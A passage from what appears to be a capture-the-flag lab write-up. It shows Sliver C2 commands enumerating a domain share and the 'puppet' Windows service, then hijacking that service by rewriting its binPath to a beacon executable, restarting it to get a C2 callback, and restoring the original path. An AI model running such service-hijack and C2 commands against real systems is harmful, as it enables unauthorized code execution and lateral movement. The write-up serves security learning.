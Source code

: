 Non-default shares are "files" on file01 where we already administrator and the it share on the dc. Let's check if we can access the it share:

```terminal
sliver (puppet-mtls) > ls \\\\dc01.puppet.vl\\it

\\dc01.puppet.vl\it\ (0 items, 0 B)
==================================
```

We don't have access there. Let's check the new user we got earlier. This is the user running the puppet service, so without having to use pass-the-hash we could change the service config to obtain a beacon, and then change it back afterwards. Let's first enumerate services:

```terminal
sliver (puppet-mtls) > sa-sc-enum
...
sliver (puppet-mtls) > sa-sc-query file01 puppet

[*] Successfully executed sa-sc-query (coff-loader)
[*] Got output:
SERVICE_NAME: puppet
	TYPE                 : 16 WIN32_OWN
	STATE                : 4 RUNNING
	WIN32_EXIT_CODE      : 0
	SERVICE_EXIT_CODE    : 0
	CHECKPOINT           : 0
	WAIT_HINT            : 0
	PID                  : 4040
	Flags                : 0
```

Now we could change the startup path and restart the service. There is a better way so I'm not going to do it, but here are the commands that would achieve it:

```terminal
# obtaining the service path
sa-reg-query file01 2 System\\CurrentControlSet\\Services\\puppet ImagePath

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\puppet
	ImagePath              REG_EXPAND_SZ   "C:\Program Files\Puppet Labs\Puppet\sys\ruby\bin\ruby.exe" -rubygems "C:\Program Files\Puppet Labs\Puppet\service\daemon.rb"

# changing the service path
execute -o -s -- c:\\windows\\system32\\cmd.exe /c sc config puppet binPath=c:\\programdata\\puppet\\puppet-update.exe
execute -o -s -- c:\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -c "Restart-Service -Name puppet"

...
[*] Beacon 55fa6e2a puppet-mtls - 10.10.144.230:52071 (File01) - windows/amd64 - Thu, 17 Oct 2024 15:23:40 CEST

# restoring the service path
execute -o -s -- c:\\windows\\system32\\cmd.exe /c sc config puppet binPath="\"C:\\Program Files\\Puppet Labs\\Puppet\\sys\\ruby\\bin\\ruby.exe\" -rubygems \"C:\\Program Files\\Puppet Labs\\Puppet\\service\\daemon.rb\""
execute -o -s -- c:\\windows\\system32\\WindowsPowerShell\\v1.0\\powershell.exe -c "Restart-Service -Name puppet"
```
